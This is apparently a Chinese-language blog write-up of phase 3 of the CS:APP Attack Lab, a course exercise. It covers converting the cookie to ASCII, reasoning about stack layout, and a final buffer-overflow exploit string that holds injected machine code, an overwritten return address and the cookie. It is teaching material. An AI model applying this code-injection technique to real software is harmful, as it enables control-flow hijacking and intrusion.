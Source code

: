 和第二题很像，我们要传入一个字符串的首地址，然后这个字符串要和cookie的字符串形式一样。

### 数字转化

首先获得cookie的字符串形式，官方文档中有提到：

{% note info no-icon %}

<ul>
    <li> You will need to include a string representation of your cookie in your exploit string. The string should consist of the eight hexadecimal digits (ordered from most to least significant) without a leading “0x.” </li>
    <li> Recall that a string is represented in C as a sequence of bytes followed by a byte with value 0. Type “man ascii” on any Linux machine to see the byte representations of the characters you need.</li>
</ul>

{% endnote %}

哦，把数字逐位转化成ASCII形式，然后末尾加上 '00' 即可。获取ASCII码的工具就是`man ascii`。最后得到的字符串是：`35 39 62 39 39 37 66 61 00`

### 栈帧结构

理一下思路。

1. 首先利用缓冲区溢出重置返回地址，将返回地址指向攻击代码。
2. 需要在缓冲区找一个地址放置字符串。
3. 攻击代码将rdi寄存器设置为攻击字符串的首地址，并调用touch3函数
4. touch3调用hexmatch函数，把rdi寄存器作为参数传进去，进行字符串匹配

注意hexmatch的这行代码：

`  401850:	48 83 c4 80          	add    $0xffffffffffffff80,%rsp`

在调用hexmatch时，栈指针减小了128。

这里要注意一个地方，字符串所在地址可能被之后调用的touch3函数所覆盖，这会导致调用touch3时与调用hexmatch时，rdi寄存器的值不一样。所以要把字符串放在地址相对更大的地方。

```
48 C7 C7 A8 DC 61 55 68
FA 18 40 00 C3 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
78 DC 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 00
```

直接把攻击字符串放在地址最高的地方，然后就通过了。

